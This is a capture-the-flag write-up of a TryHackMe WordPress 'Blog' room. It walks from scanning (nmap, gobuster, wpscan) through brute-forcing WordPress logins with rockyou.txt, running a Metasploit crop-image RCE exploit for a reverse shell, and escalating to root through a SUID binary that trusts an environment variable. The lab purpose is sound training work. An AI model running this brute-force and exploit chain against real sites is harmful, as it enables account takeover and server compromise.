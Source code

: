 ## Wordpress Blog Room from Try Hack Me.

## Difficulty: Medium

When we first paste the ip in google we come to a website called Billy Joels IT Blog

If we take a look around the page we see that it is running the CMS (Content Management System) Wordpress.

![image](https://user-images.githubusercontent.com/66257304/131880040-697415e7-172d-4efb-b939-d2cb5d1327a2.png)

Using this information we can answer question number 4, What CMS was Billy using?

# Nmap Scan

We should run an Nmap scan so we know all the open ports on the machine, This can be done by using the command, `nmap -sC -sV [IP]`, with [IP] being the ip address of the machine.

After a while this will return a long list of open ports.

![image](https://user-images.githubusercontent.com/66257304/131881935-a228cd04-860b-4ca1-920a-ae54f1e80585.png)

As we can see it has port 80 open, which is running the web page, port 22 which is running ssh, this is what we will connect to when we have the credentials to, we also have ports 139 & 445 open which is samba, to learn more about samba shares, you can go to this link https://www.samba.org/samba/docs/SambaIntro.html.

# Gobuster

To see if there are any hidden directories or files we can run a Gobuster Scan using the command, `gobuster dir -u "http://[IP]" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

This will return a list of directories which were found.

![image](https://user-images.githubusercontent.com/66257304/131883517-f94ee892-a1d0-4410-9e1f-e8dd1c4a1d1a.png)

We are most interested in /login which brings us to the wordpress login page.

![image](https://user-images.githubusercontent.com/66257304/131883946-e0e5ed2c-4b60-46d5-a3b8-c39028d88d4d.png)

# wpscan

wpscan is a great tool made by wordpress to test the security of wordpress websites, we can use it to check if there are any other things we missed, we can use the command `wpscan --url http://[IP] --enumerate u`

--enumerate u is used to try and find the users.

We see there are two users, bjoel and kwheel.

![image](https://user-images.githubusercontent.com/66257304/131889715-52275fbc-a13a-41e1-b3ba-bb0d5a876f0b.png)

We also see there is a robots.txt file.

![image](https://user-images.githubusercontent.com/66257304/131884524-198458bc-7a10-47da-821e-7bec5ce22e35.png)

If we go to it we see, 

![image](https://user-images.githubusercontent.com/66257304/131884680-46501f8b-6a9e-4811-875f-a5e711a86f67.png)

This means that the file `/wp-admin/admin-ajax.php` is readable by us, and if we go to it we see,

![image](https://user-images.githubusercontent.com/66257304/131884843-e2fc97e0-c623-48a5-b441-7144eac6825c.png)

Seemingly a dead end...

If we keep looking at the output we see the wordpress version being used is 5.0.

![image](https://user-images.githubusercontent.com/66257304/131885006-9e87738e-9fa9-4a3e-bc06-93b4311b150d.png)

This is the answer to question number 5, What version of the above CMS was being used?

Now we can bruteforce bjoel and kwheel's login passwords, since we know his username we can use a wordlist like rockyou.txt, this is pre-installed on kali in the directory `/usr/share/wordlists/rockyou.txt`, if you do not have it, you can download it from this link https://dekisoft.com/rockyou-txt-gz-password-list-download/.

To bruteforce their passwords we will be using wpscan's built in bruteforcer, we can do this by using the command `wpscan --url http://10.10.66.164 --password-attack wp-login -U bjoel,kwheel -P /usr/share/wordlists/rockyou.txt`.

SUCCESS!!

We find that kwheel's password is cutiepie1.

![image](https://user-images.githubusercontent.com/66257304/131890570-c9fed0ba-1216-41a6-b273-86b482c0ad40.png)

With this info, we can now login to her account.

We're in!

Now we can search for some exploits, since we know this website is using wordpress version 5.0, we can use the command `searchsploit wordpress 5.0`.

We see there a quite a few results but the one that catches my eye is this.

![image](https://user-images.githubusercontent.com/66257304/131892290-3f05b699-31eb-4d3e-a962-adc839821cbd.png)

To use this we need to start up metasploit and search for it using the command `search crop-image`.

Then we need to use the exploit by using the command `use exploit/multi/http/wp_crop_rce`.

Now we need to set the parameters, to see them use the command `show options`, for this we need to change the, password, RHOSTS, username, and LHOSTS, to change these use the commands, `set password cutiepie1`, `set RHOSTS [IP]`, `set username kwheel`, `set LHOSTS [YOUR IP]`.

Now we can use the command `exploit` to run the exploit.

When the exploit completes we will see this screen. 

![image](https://user-images.githubusercontent.com/66257304/131910788-9c4733e0-2ac8-46ac-ab22-f8dec23c0a56.png)

Then we run the command `shell` to get into a shell

Now we need to stabilise the shell so we can use bash commands, this can be done by running the command `python -c 'import pty; pty.spawn("/bin/sh")'`

We are now on the machine as the user www-data, usually if we were to navigate to /home/bjoel the user flag would be there but when we cat the file out we get this.

![image](https://user-images.githubusercontent.com/66257304/131911443-6ba7195d-0686-4d8a-aeef-3e8c880f7447.png)

So we are going to have to do some privelage escalation, we can check for SUID Binarys by running the command `find / -perm -u=s -type f 2>/dev/null`.

We see an unusual output.

![image](https://user-images.githubusercontent.com/66257304/131911718-da7831af-15f5-4be8-a0b5-8d5935d0f045.png)

Lets take a look at this, we can use the command `ltrace checker` to see what it actually does.

![image](https://user-images.githubusercontent.com/66257304/131911861-49b2593d-c932-4f33-b353-994673bbde4d.png)

Hmmmm, seems that it gets the admin environment variable and prints out "Not Admin" , so what if we change this variable?

Run the command `export admin=1`.

Seems that changed the variable...

![image](https://user-images.githubusercontent.com/66257304/131912141-63712d34-151e-4469-a5d4-22f89ca8413e.png)

What if we run checker now, what will it do, run the command `checker`.

And BOOM!, we are root.

![image](https://user-images.githubusercontent.com/66257304/131912236-6db90137-9c75-4f9a-b81d-ccce61e06335.png)

Okay, now we are root we need to find the flags to finish off the machine.

We can easily get the root flag by navigating to /root/root.txt

Now we need to find the user flag, to do this we need to run the command `find / 2>/dev/null | grep user.txt` which checks all the files on the system and checks if it is called user.txt and if it is not, it is ignored, so now we know where the user flag is, we can submit the flags and where we found it to finish the last 2 questions.

Well Done!







